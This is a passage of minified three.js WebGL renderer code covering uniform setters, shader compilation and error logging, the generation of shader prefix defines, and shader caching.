n=ma(e,this.size,2);t.uniform2fv(this.addr,n)}function Ba(t,e){const n=ma(e,this.size,3);t.uniform3fv(this.addr,n)}function Ha(t,e){const n=ma(e,this.size,4);t.uniform4fv(this.addr,n)}function Va(t,e){const n=ma(e,this.size,4);t.uniformMatrix2fv(this.addr,!1,n)}function Ga(t,e){const n=ma(e,this.size,9);t.uniformMatrix3fv(this.addr,!1,n)}function ja(t,e){const n=ma(e,this.size,16);t.uniformMatrix4fv(this.addr,!1,n)}function Wa(t,e){t.uniform1iv(this.addr,e)}function Xa(t,e){t.uniform2iv(this.addr,e)}function qa(t,e){t.uniform3iv(this.addr,e)}function Ya(t,e){t.uniform4iv(this.addr,e)}function Ka(t,e){t.uniform1uiv(this.addr,e)}function Za(t,e){t.uniform2uiv(this.addr,e)}function $a(t,e){t.uniform3uiv(this.addr,e)}function Ja(t,e){t.uniform4uiv(this.addr,e)}function Qa(t,e,n){const i=this.cache,r=e.length,a=va(n,r);ga(i,a)||(t.uniform1iv(this.addr,a),_a(i,a));for(let t=0;t!==r;++t)n.setTexture2D(e[t]||aa,a[t])}function to(t,e,n){const i=this.cache,r=e.length,a=va(n,r);ga(i,a)||(t.uniform1iv(this.addr,a),_a(i,a));for(let t=0;t!==r;++t)n.setTexture3D(e[t]||la,a[t])}function eo(t,e,n){const i=this.cache,r=e.length,a=va(n,r);ga(i,a)||(t.uniform1iv(this.addr,a),_a(i,a));for(let t=0;t!==r;++t)n.setTextureCube(e[t]||ca,a[t])}function no(t,e,n){const i=this.cache,r=e.length,a=va(n,r);ga(i,a)||(t.uniform1iv(this.addr,a),_a(i,a));for(let t=0;t!==r;++t)n.setTexture2DArray(e[t]||sa,a[t])}class io{constructor(t,e,n){this.id=t,this.addr=n,this.cache=[],this.type=e.type,this.setValue=function(t){switch(t){case 5126:return ya;case 35664:return xa;case 35665:return ba;case 35666:return Ma;case 35674:return Sa;case 35675:return Ea;case 35676:return wa;case 5124:case 35670:return Ta;case 35667:case 35671:return Aa;case 35668:case 35672:return Ca;case 35669:case 35673:return Ra;case 5125:return Pa;case 36294:return La;case 36295:return Da;case 36296:return Ia;case 35678:case 36198:case 36298:case 36306:case 35682:return Oa;case 35679:case 36299:case 36307:return Ua;case 35680:case 36300:case 36308:case 36293:return Na;case 36289:case 36303:case 36311:case 36292:return Fa}}(e.type)}}class ro{constructor(t,e,n){this.id=t,this.addr=n,this.cache=[],this.type=e.type,this.size=e.size,this.setValue=function(t){switch(t){case 5126:return ka;case 35664:return za;case 35665:return Ba;case 35666:return Ha;case 35674:return Va;case 35675:return Ga;case 35676:return ja;case 5124:case 35670:return Wa;case 35667:case 35671:return Xa;case 35668:case 35672:return qa;case 35669:case 35673:return Ya;case 5125:return Ka;case 36294:return Za;case 36295:return $a;case 36296:return Ja;case 35678:case 36198:case 36298:case 36306:case 35682:return Qa;case 35679:case 36299:case 36307:return to;case 35680:case 36300:case 36308:case 36293:return eo;case 36289:case 36303:case 36311:case 36292:return no}}(e.type)}}class ao{constructor(t){this.id=t,this.seq=[],this.map={}}setValue(t,e,n){const i=this.seq;for(let r=0,a=i.length;r!==a;++r){const a=i[r];a.setValue(t,e[a.id],n)}}}const oo=/(\\w+)(\\])?(\\[|\\.)?/g;function so(t,e){t.seq.push(e),t.map[e.id]=e}function lo(t,e,n){const i=t.name,r=i.length;for(oo.lastIndex=0;;){const a=oo.exec(i),o=oo.lastIndex;let s=a[1];const l=\"]\"===a[2],c=a[3];if(l&&(s|=0),void 0===c||\"[\"===c&&o+2===r){so(n,void 0===c?new io(s,t,e):new ro(s,t,e));break}{let t=n.map[s];void 0===t&&(t=new ao(s),so(n,t)),n=t}}}class co{constructor(t,e){this.seq=[],this.map={};const n=t.getProgramParameter(e,t.ACTIVE_UNIFORMS);for(let i=0;i<n;++i){const n=t.getActiveUniform(e,i);lo(n,t.getUniformLocation(e,n.name),this)}}setValue(t,e,n,i){const r=this.map[e];void 0!==r&&r.setValue(t,n,i)}setOptional(t,e,n){const i=e[n];void 0!==i&&this.setValue(t,n,i)}static upload(t,e,n,i){for(let r=0,a=e.length;r!==a;++r){const a=e[r],o=n[a.id];!1!==o.needsUpdate&&a.setValue(t,o.value,i)}}static seqWithValue(t,e){const n=[];for(let i=0,r=t.length;i!==r;++i){const r=t[i];r.id in e&&n.push(r)}return n}}function ho(t,e,n){const i=t.createShader(e);return t.shaderSource(i,n),t.compileShader(i),i}let uo=0;function po(t,e,n){const i=t.getShaderParameter(e,t.COMPILE_STATUS),r=t.getShaderInfoLog(e).trim();if(i&&\"\"===r)return\"\";const a=/ERROR: 0:(\\d+)/.exec(r);if(a){const i=parseInt(a[1]);return n.toUpperCase()+\"\\n\\n\"+r+\"\\n\\n\"+function(t,e){const n=t.split(\"\\n\"),i=[],r=Math.max(e-6,0),a=Math.min(e+6,n.length);for(let t=r;t<a;t++){const r=t+1;i.push(`${r===e?\">\":\" \"} ${r}: ${n[t]}`)}return i.join(\"\\n\")}(t.getShaderSource(e),i)}return r}function fo(t,e){const n=function(t){const e=Pe.getPrimaries(Pe.workingColorSpace),n=Pe.getPrimaries(t);let i;switch(e===n?i=\"\":e===qt&&n===Xt?i=\"LinearDisplayP3ToLinearSRGB\":e===Xt&&n===qt&&(i=\"LinearSRGBToLinearDisplayP3\"),t){case Ht:case Gt:return[i,\"LinearTransferOETF\"];case Bt:case Vt:return[i,\"sRGBTransferOETF\"];default:return console.warn(\"THREE.WebGLProgram: Unsupported color space:\",t),[i,\"LinearTransferOETF\"]}}(e);return`vec4 ${t}( vec4 value ) { return ${n[0]}( ${n[1]}( value ) ); }`}function mo(t,e){let n;switch(e){case 1:n=\"Linear\";break;case 2:n=\"Reinhard\";break;case 3:n=\"Cineon\";break;case 4:n=\"ACESFilmic\";break;case 6:n=\"AgX\";break;case 7:n=\"Neutral\";break;case 5:n=\"Custom\";break;default:console.warn(\"THREE.WebGLProgram: Unsupported toneMapping:\",e),n=\"Linear\"}return\"vec3 \"+t+\"( vec3 color ) { return \"+n+\"ToneMapping( color ); }\"}const go=new Xe;function _o(){Pe.getLuminanceCoefficients(go);return[\"float luminance( const in vec3 rgb ) {\",`\\tconst vec3 weights = vec3( ${go.x.toFixed(4)}, ${go.y.toFixed(4)}, ${go.z.toFixed(4)} );`,\"\\treturn dot( weights, rgb );\",\"}\"].join(\"\\n\")}function vo(t){return\"\"!==t}function yo(t,e){const n=e.numSpotLightShadows+e.numSpotLightMaps-e.numSpotLightShadowsWithMaps;return t.replace(/NUM_DIR_LIGHTS/g,e.numDirLights).replace(/NUM_SPOT_LIGHTS/g,e.numSpotLights).replace(/NUM_SPOT_LIGHT_MAPS/g,e.numSpotLightMaps).replace(/NUM_SPOT_LIGHT_COORDS/g,n).replace(/NUM_RECT_AREA_LIGHTS/g,e.numRectAreaLights).replace(/NUM_POINT_LIGHTS/g,e.numPointLights).replace(/NUM_HEMI_LIGHTS/g,e.numHemiLights).replace(/NUM_DIR_LIGHT_SHADOWS/g,e.numDirLightShadows).replace(/NUM_SPOT_LIGHT_SHADOWS_WITH_MAPS/g,e.numSpotLightShadowsWithMaps).replace(/NUM_SPOT_LIGHT_SHADOWS/g,e.numSpotLightShadows).replace(/NUM_POINT_LIGHT_SHADOWS/g,e.numPointLightShadows)}function xo(t,e){return t.replace(/NUM_CLIPPING_PLANES/g,e.numClippingPlanes).replace(/UNION_CLIPPING_PLANES/g,e.numClippingPlanes-e.numClipIntersection)}const bo=/^[ \\t]*#include +<([\\w\\d./]+)>/gm;function Mo(t){return t.replace(bo,Eo)}const So=new Map;function Eo(t,e){let n=br[e];if(void 0===n){const t=So.get(e);if(void 0===t)throw new Error(\"Can not resolve #include <\"+e+\">\");n=br[t],console.warn('THREE.WebGLRenderer: Shader chunk \"%s\" has been deprecated. Use \"%s\" instead.',e,t)}return Mo(n)}const wo=/#pragma unroll_loop_start\\s+for\\s*\\(\\s*int\\s+i\\s*=\\s*(\\d+)\\s*;\\s*i\\s*<\\s*(\\d+)\\s*;\\s*i\\s*\\+\\+\\s*\\)\\s*{([\\s\\S]+?)}\\s+#pragma unroll_loop_end/g;function To(t){return t.replace(wo,Ao)}function Ao(t,e,n,i){let r=\"\";for(let t=parseInt(e);t<parseInt(n);t++)r+=i.replace(/\\[\\s*i\\s*\\]/g,\"[ \"+t+\" ]\").replace(/UNROLLED_LOOP_INDEX/g,t);return r}function Co(t){let e=`precision ${t.precision} float;\\n\\tprecision ${t.precision} int;\\n\\tprecision ${t.precision} sampler2D;\\n\\tprecision ${t.precision} samplerCube;\\n\\tprecision ${t.precision} sampler3D;\\n\\tprecision ${t.precision} sampler2DArray;\\n\\tprecision ${t.precision} sampler2DShadow;\\n\\tprecision ${t.precision} samplerCubeShadow;\\n\\tprecision ${t.precision} sampler2DArrayShadow;\\n\\tprecision ${t.precision} isampler2D;\\n\\tprecision ${t.precision} isampler3D;\\n\\tprecision ${t.precision} isamplerCube;\\n\\tprecision ${t.precision} isampler2DArray;\\n\\tprecision ${t.precision} usampler2D;\\n\\tprecision ${t.precision} usampler3D;\\n\\tprecision ${t.precision} usamplerCube;\\n\\tprecision ${t.precision} usampler2DArray;\\n\\t`;return\"highp\"===t.precision?e+=\"\\n#define HIGH_PRECISION\":\"mediump\"===t.precision?e+=\"\\n#define MEDIUM_PRECISION\":\"lowp\"===t.precision&&(e+=\"\\n#define LOW_PRECISION\"),e}function Ro(t,e,n,i){const r=t.getContext(),a=n.defines;let o=n.vertexShader,s=n.fragmentShader;const l=function(t){let e=\"SHADOWMAP_TYPE_BASIC\";return 1===t.shadowMapType?e=\"SHADOWMAP_TYPE_PCF\":2===t.shadowMapType?e=\"SHADOWMAP_TYPE_PCF_SOFT\":3===t.shadowMapType&&(e=\"SHADOWMAP_TYPE_VSM\"),e}(n),c=function(t){let e=\"ENVMAP_TYPE_CUBE\";if(t.envMap)switch(t.envMapMode){case D:case I:e=\"ENVMAP_TYPE_CUBE\";break;case O:e=\"ENVMAP_TYPE_CUBE_UV\"}return e}(n),h=function(t){let e=\"ENVMAP_MODE_REFLECTION\";t.envMap&&t.envMapMode===I&&(e=\"ENVMAP_MODE_REFRACTION\");return e}(n),u=function(t){let e=\"ENVMAP_BLENDING_NONE\";if(t.envMap)switch(t.combine){case 0:e=\"ENVMAP_BLENDING_MULTIPLY\";break;case 1:e=\"ENVMAP_BLENDING_MIX\";break;case 2:e=\"ENVMAP_BLENDING_ADD\"}return e}(n),d=function(t){const e=t.envMapCubeUVHeight;if(null===e)return null;const n=Math.log2(e)-2,i=1/e;return{texelWidth:1/(3*Math.max(Math.pow(2,n),112)),texelHeight:i,maxMip:n}}(n),p=function(t){return[t.extensionClipCullDistance?\"#extension GL_ANGLE_clip_cull_distance : require\":\"\",t.extensionMultiDraw?\"#extension GL_ANGLE_multi_draw : require\":\"\"].filter(vo).join(\"\\n\")}(n),f=function(t){const e=[];for(const n in t){const i=t[n];!1!==i&&e.push(\"#define \"+n+\" \"+i)}return e.join(\"\\n\")}(a),m=r.createProgram();let g,_,v=n.glslVersion?\"#version \"+n.glslVersion+\"\\n\":\"\";n.isRawShaderMaterial?(g=[\"#define SHADER_TYPE \"+n.shaderType,\"#define SHADER_NAME \"+n.shaderName,f].filter(vo).join(\"\\n\"),g.length>0&&(g+=\"\\n\"),_=[\"#define SHADER_TYPE \"+n.shaderType,\"#define SHADER_NAME \"+n.shaderName,f].filter(vo).join(\"\\n\"),_.length>0&&(_+=\"\\n\")):(g=[Co(n),\"#define SHADER_TYPE \"+n.shaderType,\"#define SHADER_NAME \"+n.shaderName,f,n.extensionClipCullDistance?\"#define USE_CLIP_DISTANCE\":\"\",n.batching?\"#define USE_BATCHING\":\"\",n.batchingColor?\"#define USE_BATCHING_COLOR\":\"\",n.instancing?\"#define USE_INSTANCING\":\"\",n.instancingColor?\"#define USE_INSTANCING_COLOR\":\"\",n.instancingMorph?\"#define USE_INSTANCING_MORPH\":\"\",n.useFog&&n.fog?\"#define USE_FOG\":\"\",n.useFog&&n.fogExp2?\"#define FOG_EXP2\":\"\",n.map?\"#define USE_MAP\":\"\",n.envMap?\"#define USE_ENVMAP\":\"\",n.envMap?\"#define \"+h:\"\",n.lightMap?\"#define USE_LIGHTMAP\":\"\",n.aoMap?\"#define USE_AOMAP\":\"\",n.bumpMap?\"#define USE_BUMPMAP\":\"\",n.normalMap?\"#define USE_NORMALMAP\":\"\",n.normalMapObjectSpace?\"#define USE_NORMALMAP_OBJECTSPACE\":\"\",n.normalMapTangentSpace?\"#define USE_NORMALMAP_TANGENTSPACE\":\"\",n.displacementMap?\"#define USE_DISPLACEMENTMAP\":\"\",n.emissiveMap?\"#define USE_EMISSIVEMAP\":\"\",n.anisotropy?\"#define USE_ANISOTROPY\":\"\",n.anisotropyMap?\"#define USE_ANISOTROPYMAP\":\"\",n.clearcoatMap?\"#define USE_CLEARCOATMAP\":\"\",n.clearcoatRoughnessMap?\"#define USE_CLEARCOAT_ROUGHNESSMAP\":\"\",n.clearcoatNormalMap?\"#define USE_CLEARCOAT_NORMALMAP\":\"\",n.iridescenceMap?\"#define USE_IRIDESCENCEMAP\":\"\",n.iridescenceThicknessMap?\"#define USE_IRIDESCENCE_THICKNESSMAP\":\"\",n.specularMap?\"#define USE_SPECULARMAP\":\"\",n.specularColorMap?\"#define USE_SPECULAR_COLORMAP\":\"\",n.specularIntensityMap?\"#define USE_SPECULAR_INTENSITYMAP\":\"\",n.roughnessMap?\"#define USE_ROUGHNESSMAP\":\"\",n.metalnessMap?\"#define USE_METALNESSMAP\":\"\",n.alphaMap?\"#define USE_ALPHAMAP\":\"\",n.alphaHash?\"#define USE_ALPHAHASH\":\"\",n.transmission?\"#define USE_TRANSMISSION\":\"\",n.transmissionMap?\"#define USE_TRANSMISSIONMAP\":\"\",n.thicknessMap?\"#define USE_THICKNESSMAP\":\"\",n.sheenColorMap?\"#define USE_SHEEN_COLORMAP\":\"\",n.sheenRoughnessMap?\"#define USE_SHEEN_ROUGHNESSMAP\":\"\",n.mapUv?\"#define MAP_UV \"+n.mapUv:\"\",n.alphaMapUv?\"#define ALPHAMAP_UV \"+n.alphaMapUv:\"\",n.lightMapUv?\"#define LIGHTMAP_UV \"+n.lightMapUv:\"\",n.aoMapUv?\"#define AOMAP_UV \"+n.aoMapUv:\"\",n.emissiveMapUv?\"#define EMISSIVEMAP_UV \"+n.emissiveMapUv:\"\",n.bumpMapUv?\"#define BUMPMAP_UV \"+n.bumpMapUv:\"\",n.normalMapUv?\"#define NORMALMAP_UV \"+n.normalMapUv:\"\",n.displacementMapUv?\"#define DISPLACEMENTMAP_UV \"+n.displacementMapUv:\"\",n.metalnessMapUv?\"#define METALNESSMAP_UV \"+n.metalnessMapUv:\"\",n.roughnessMapUv?\"#define ROUGHNESSMAP_UV \"+n.roughnessMapUv:\"\",n.anisotropyMapUv?\"#define ANISOTROPYMAP_UV \"+n.anisotropyMapUv:\"\",n.clearcoatMapUv?\"#define CLEARCOATMAP_UV \"+n.clearcoatMapUv:\"\",n.clearcoatNormalMapUv?\"#define CLEARCOAT_NORMALMAP_UV \"+n.clearcoatNormalMapUv:\"\",n.clearcoatRoughnessMapUv?\"#define CLEARCOAT_ROUGHNESSMAP_UV \"+n.clearcoatRoughnessMapUv:\"\",n.iridescenceMapUv?\"#define IRIDESCENCEMAP_UV \"+n.iridescenceMapUv:\"\",n.iridescenceThicknessMapUv?\"#define IRIDESCENCE_THICKNESSMAP_UV \"+n.iridescenceThicknessMapUv:\"\",n.sheenColorMapUv?\"#define SHEEN_COLORMAP_UV \"+n.sheenColorMapUv:\"\",n.sheenRoughnessMapUv?\"#define SHEEN_ROUGHNESSMAP_UV \"+n.sheenRoughnessMapUv:\"\",n.specularMapUv?\"#define SPECULARMAP_UV \"+n.specularMapUv:\"\",n.specularColorMapUv?\"#define SPECULAR_COLORMAP_UV \"+n.specularColorMapUv:\"\",n.specularIntensityMapUv?\"#define SPECULAR_INTENSITYMAP_UV \"+n.specularIntensityMapUv:\"\",n.transmissionMapUv?\"#define TRANSMISSIONMAP_UV \"+n.transmissionMapUv:\"\",n.thicknessMapUv?\"#define THICKNESSMAP_UV \"+n.thicknessMapUv:\"\",n.vertexTangents&&!1===n.flatShading?\"#define USE_TANGENT\":\"\",n.vertexColors?\"#define USE_COLOR\":\"\",n.vertexAlphas?\"#define USE_COLOR_ALPHA\":\"\",n.vertexUv1s?\"#define USE_UV1\":\"\",n.vertexUv2s?\"#define USE_UV2\":\"\",n.vertexUv3s?\"#define USE_UV3\":\"\",n.pointsUvs?\"#define USE_POINTS_UV\":\"\",n.flatShading?\"#define FLAT_SHADED\":\"\",n.skinning?\"#define USE_SKINNING\":\"\",n.morphTargets?\"#define USE_MORPHTARGETS\":\"\",n.morphNormals&&!1===n.flatShading?\"#define USE_MORPHNORMALS\":\"\",n.morphColors?\"#define USE_MORPHCOLORS\":\"\",n.morphTargetsCount>0?\"#define MORPHTARGETS_TEXTURE_STRIDE \"+n.morphTextureStride:\"\",n.morphTargetsCount>0?\"#define MORPHTARGETS_COUNT \"+n.morphTargetsCount:\"\",n.doubleSided?\"#define DOUBLE_SIDED\":\"\",n.flipSided?\"#define FLIP_SIDED\":\"\",n.shadowMapEnabled?\"#define USE_SHADOWMAP\":\"\",n.shadowMapEnabled?\"#define \"+l:\"\",n.sizeAttenuation?\"#define USE_SIZEATTENUATION\":\"\",n.numLightProbes>0?\"#define USE_LIGHT_PROBES\":\"\",n.logarithmicDepthBuffer?\"#define USE_LOGDEPTHBUF\":\"\",\"uniform mat4 modelMatrix;\",\"uniform mat4 modelViewMatrix;\",\"uniform mat4 projectionMatrix;\",\"uniform mat4 viewMatrix;\",\"uniform mat3 normalMatrix;\",\"uniform vec3 cameraPosition;\",\"uniform bool isOrthographic;\",\"#ifdef USE_INSTANCING\",\"\\tattribute mat4 instanceMatrix;\",\"#endif\",\"#ifdef USE_INSTANCING_COLOR\",\"\\tattribute vec3 instanceColor;\",\"#endif\",\"#ifdef USE_INSTANCING_MORPH\",\"\\tuniform sampler2D morphTexture;\",\"#endif\",\"attribute vec3 position;\",\"attribute vec3 normal;\",\"attribute vec2 uv;\",\"#ifdef USE_UV1\",\"\\tattribute vec2 uv1;\",\"#endif\",\"#ifdef USE_UV2\",\"\\tattribute vec2 uv2;\",\"#endif\",\"#ifdef USE_UV3\",\"\\tattribute vec2 uv3;\",\"#endif\",\"#ifdef USE_TANGENT\",\"\\tattribute vec4 tangent;\",\"#endif\",\"#if defined( USE_COLOR_ALPHA )\",\"\\tattribute vec4 color;\",\"#elif defined( USE_COLOR )\",\"\\tattribute vec3 color;\",\"#endif\",\"#ifdef USE_SKINNING\",\"\\tattribute vec4 skinIndex;\",\"\\tattribute vec4 skinWeight;\",\"#endif\",\"\\n\"].filter(vo).join(\"\\n\"),_=[Co(n),\"#define SHADER_TYPE \"+n.shaderType,\"#define SHADER_NAME \"+n.shaderName,f,n.useFog&&n.fog?\"#define USE_FOG\":\"\",n.useFog&&n.fogExp2?\"#define FOG_EXP2\":\"\",n.alphaToCoverage?\"#define ALPHA_TO_COVERAGE\":\"\",n.map?\"#define USE_MAP\":\"\",n.matcap?\"#define USE_MATCAP\":\"\",n.envMap?\"#define USE_ENVMAP\":\"\",n.envMap?\"#define \"+c:\"\",n.envMap?\"#define \"+h:\"\",n.envMap?\"#define \"+u:\"\",d?\"#define CUBEUV_TEXEL_WIDTH \"+d.texelWidth:\"\",d?\"#define CUBEUV_TEXEL_HEIGHT \"+d.texelHeight:\"\",d?\"#define CUBEUV_MAX_MIP \"+d.maxMip+\".0\":\"\",n.lightMap?\"#define USE_LIGHTMAP\":\"\",n.aoMap?\"#define USE_AOMAP\":\"\",n.bumpMap?\"#define USE_BUMPMAP\":\"\",n.normalMap?\"#define USE_NORMALMAP\":\"\",n.normalMapObjectSpace?\"#define USE_NORMALMAP_OBJECTSPACE\":\"\",n.normalMapTangentSpace?\"#define USE_NORMALMAP_TANGENTSPACE\":\"\",n.emissiveMap?\"#define USE_EMISSIVEMAP\":\"\",n.anisotropy?\"#define USE_ANISOTROPY\":\"\",n.anisotropyMap?\"#define USE_ANISOTROPYMAP\":\"\",n.clearcoat?\"#define USE_CLEARCOAT\":\"\",n.clearcoatMap?\"#define USE_CLEARCOATMAP\":\"\",n.clearcoatRoughnessMap?\"#define USE_CLEARCOAT_ROUGHNESSMAP\":\"\",n.clearcoatNormalMap?\"#define USE_CLEARCOAT_NORMALMAP\":\"\",n.dispersion?\"#define USE_DISPERSION\":\"\",n.iridescence?\"#define USE_IRIDESCENCE\":\"\",n.iridescenceMap?\"#define USE_IRIDESCENCEMAP\":\"\",n.iridescenceThicknessMap?\"#define USE_IRIDESCENCE_THICKNESSMAP\":\"\",n.specularMap?\"#define USE_SPECULARMAP\":\"\",n.specularColorMap?\"#define USE_SPECULAR_COLORMAP\":\"\",n.specularIntensityMap?\"#define USE_SPECULAR_INTENSITYMAP\":\"\",n.roughnessMap?\"#define USE_ROUGHNESSMAP\":\"\",n.metalnessMap?\"#define USE_METALNESSMAP\":\"\",n.alphaMap?\"#define USE_ALPHAMAP\":\"\",n.alphaTest?\"#define USE_ALPHATEST\":\"\",n.alphaHash?\"#define USE_ALPHAHASH\":\"\",n.sheen?\"#define USE_SHEEN\":\"\",n.sheenColorMap?\"#define USE_SHEEN_COLORMAP\":\"\",n.sheenRoughnessMap?\"#define USE_SHEEN_ROUGHNESSMAP\":\"\",n.transmission?\"#define USE_TRANSMISSION\":\"\",n.transmissionMap?\"#define USE_TRANSMISSIONMAP\":\"\",n.thicknessMap?\"#define USE_THICKNESSMAP\":\"\",n.vertexTangents&&!1===n.flatShading?\"#define USE_TANGENT\":\"\",n.vertexColors||n.instancingColor||n.batchingColor?\"#define USE_COLOR\":\"\",n.vertexAlphas?\"#define USE_COLOR_ALPHA\":\"\",n.vertexUv1s?\"#define USE_UV1\":\"\",n.vertexUv2s?\"#define USE_UV2\":\"\",n.vertexUv3s?\"#define USE_UV3\":\"\",n.pointsUvs?\"#define USE_POINTS_UV\":\"\",n.gradientMap?\"#define USE_GRADIENTMAP\":\"\",n.flatShading?\"#define FLAT_SHADED\":\"\",n.doubleSided?\"#define DOUBLE_SIDED\":\"\",n.flipSided?\"#define FLIP_SIDED\":\"\",n.shadowMapEnabled?\"#define USE_SHADOWMAP\":\"\",n.shadowMapEnabled?\"#define \"+l:\"\",n.premultipliedAlpha?\"#define PREMULTIPLIED_ALPHA\":\"\",n.numLightProbes>0?\"#define USE_LIGHT_PROBES\":\"\",n.decodeVideoTexture?\"#define DECODE_VIDEO_TEXTURE\":\"\",n.logarithmicDepthBuffer?\"#define USE_LOGDEPTHBUF\":\"\",\"uniform mat4 viewMatrix;\",\"uniform vec3 cameraPosition;\",\"uniform bool isOrthographic;\",0!==n.toneMapping?\"#define TONE_MAPPING\":\"\",0!==n.toneMapping?br.tonemapping_pars_fragment:\"\",0!==n.toneMapping?mo(\"toneMapping\",n.toneMapping):\"\",n.dithering?\"#define DITHERING\":\"\",n.opaque?\"#define OPAQUE\":\"\",br.colorspace_pars_fragment,fo(\"linearToOutputTexel\",n.outputColorSpace),_o(),n.useDepthPacking?\"#define DEPTH_PACKING \"+n.depthPacking:\"\",\"\\n\"].filter(vo).join(\"\\n\")),o=Mo(o),o=yo(o,n),o=xo(o,n),s=Mo(s),s=yo(s,n),s=xo(s,n),o=To(o),s=To(s),!0!==n.isRawShaderMaterial&&(v=\"#version 300 es\\n\",g=[p,\"#define attribute in\",\"#define varying out\",\"#define texture2D texture\"].join(\"\\n\")+\"\\n\"+g,_=[\"#define varying in\",n.glslVersion===ie?\"\":\"layout(location = 0) out highp vec4 pc_fragColor;\",n.glslVersion===ie?\"\":\"#define gl_FragColor pc_fragColor\",\"#define gl_FragDepthEXT gl_FragDepth\",\"#define texture2D texture\",\"#define textureCube texture\",\"#define texture2DProj textureProj\",\"#define texture2DLodEXT textureLod\",\"#define texture2DProjLodEXT textureProjLod\",\"#define textureCubeLodEXT textureLod\",\"#define texture2DGradEXT textureGrad\",\"#define texture2DProjGradEXT textureProjGrad\",\"#define textureCubeGradEXT textureGrad\"].join(\"\\n\")+\"\\n\"+_);const y=v+g+o,x=v+_+s,b=ho(r,r.VERTEX_SHADER,y),M=ho(r,r.FRAGMENT_SHADER,x);function S(e){if(t.debug.checkShaderErrors){const n=r.getProgramInfoLog(m).trim(),i=r.getShaderInfoLog(b).trim(),a=r.getShaderInfoLog(M).trim();let o=!0,s=!0;if(!1===r.getProgramParameter(m,r.LINK_STATUS))if(o=!1,\"function\"==typeof t.debug.onShaderError)t.debug.onShaderError(r,m,b,M);else{const t=po(r,b,\"vertex\"),i=po(r,M,\"fragment\");console.error(\"THREE.WebGLProgram: Shader Error \"+r.getError()+\" - VALIDATE_STATUS \"+r.getProgramParameter(m,r.VALIDATE_STATUS)+\"\\n\\nMaterial Name: \"+e.name+\"\\nMaterial Type: \"+e.type+\"\\n\\nProgram Info Log: \"+n+\"\\n\"+t+\"\\n\"+i)}else\"\"!==n?console.warn(\"THREE.WebGLProgram: Program Info Log:\",n):\"\"!==i&&\"\"!==a||(s=!1);s&&(e.diagnostics={runnable:o,programLog:n,vertexShader:{log:i,prefix:g},fragmentShader:{log:a,prefix:_}})}r.deleteShader(b),r.deleteShader(M),E=new co(r,m),w=function(t,e){const n={},i=t.getProgramParameter(e,t.ACTIVE_ATTRIBUTES);for(let r=0;r<i;r++){const i=t.getActiveAttrib(e,r),a=i.name;let o=1;i.type===t.FLOAT_MAT2&&(o=2),i.type===t.FLOAT_MAT3&&(o=3),i.type===t.FLOAT_MAT4&&(o=4),n[a]={type:i.type,location:t.getAttribLocation(e,a),locationSize:o}}return n}(r,m)}let E,w;r.attachShader(m,b),r.attachShader(m,M),void 0!==n.index0AttributeName?r.bindAttribLocation(m,0,n.index0AttributeName):!0===n.morphTargets&&r.bindAttribLocation(m,0,\"position\"),r.linkProgram(m),this.getUniforms=function(){return void 0===E&&S(this),E},this.getAttributes=function(){return void 0===w&&S(this),w};let T=!1===n.rendererExtensionParallelShaderCompile;return this.isReady=function(){return!1===T&&(T=r.getProgramParameter(m,37297)),T},this.destroy=function(){i.releaseStatesOfProgram(this),r.deleteProgram(m),this.program=void 0},this.type=n.shaderType,this.name=n.shaderName,this.id=uo++,this.cacheKey=e,this.usedTimes=1,this.program=m,this.vertexShader=b,this.fragmentShader=M,this}let Po=0;class Lo{constructor(){this.shaderCache=new Map,this.materialCache=new Map}update(t){const e=t.vertexShader,n=t.fragmentShader,i=this._getShaderStage(e),r=this._getShaderStage(n),a=this._getShaderCacheForMaterial(t);return!1===a.has(i)&&(a.add(i),i.usedTimes++),!1===a.has(r)&&(a.add(r),r.usedTimes++),this}remove(t){const e=this.materialCache.get(t);for(const t of e)t.usedTimes--,0===t.usedTimes&&this.shaderCache.delete(t.code);return this.materialCache.delete(t),this}getVertexShaderID(t){return this._getShaderStage(t.vertexShader).id}getFragmentShaderID(t){return this._getShaderStage(t.fragmentShader).id}dispose(){this.shaderCache.clear(),this.materialCache.clear()}_getShaderCacheForMaterial(t){const e=this.materialCache;let n=e.get(t);return void 0===n&&(n=new Set,e.set(t,n)),n}_getShaderStage(t){const e=this.shaderCache;let n=e.get(t);return void 0===n&&(n=new Do(t),e.set(t,n)),n}}class Do{constructor(t){this.id=Po++,this.code=t,this.usedTimes=0}}function Io(t,e,n,i,r,a,o){const s=new On,l=new Lo,c=new Set,h=[],u=r.logarithmicDepthBuffer,d=r.vertexTextures;let p=r.precision;const f={MeshDepthMaterial:\"depth\",MeshDistanceMaterial:\"distanceRGBA\",MeshNormalMaterial:\"normal\",MeshBasicMaterial:\"basic\",MeshLambertMaterial:\"lambert\",MeshPhongMaterial:\"phong\",MeshToonMaterial:\"toon\",MeshStandardMaterial:\"physical\",MeshPhysicalMaterial:\"physical\",MeshMatcapMaterial:\"matcap\",LineBasicMaterial:\"basic\",LineDashedMaterial:\"dashed\",PointsMaterial:\"points\",ShadowMaterial:\"shadow\",SpriteMaterial:\"sprite\"};function m(t){return c.add(t),0===t?\"uv\":`uv${t}`}return{getParameters:function(a,s,h,g,_){const v=g.fog,y=_.geometry,x=a.isMeshStandardMaterial?g.environment:null,b=(a.isMeshStandardMaterial?n:e).get(a.envMap||x),M=b&&b.mapping===O?b.image.height:null,S=f[a.type];null!==a.precision&&(p=r.getMaxPrecision(a.precision),p!==a.precision&&console.warn(\"THREE.WebGLProgram.getParameters:\",a.precision,\"not supported, using\",p,\"instead.\"));const E=y.morphAttributes.position||y.morphAttributes.normal||y.morphAttributes.color,w=void 0!==E?E.length:0;let T,A,C,R,P=0;if(void 0!==y.morphAttributes.position&&(P=1),void 0!==y.morphAttributes.normal&&(P=2),void 0!==y.morphAttributes.color&&(P=3),S){const t=Sr[S];T=t.vertexShader,A=t.fragmentShader}else T=a.vertexShader,A=a.fragmentShader,l.update(a),C=l.getVertexShaderID(a),R=l.getFragmentShaderID(a);const 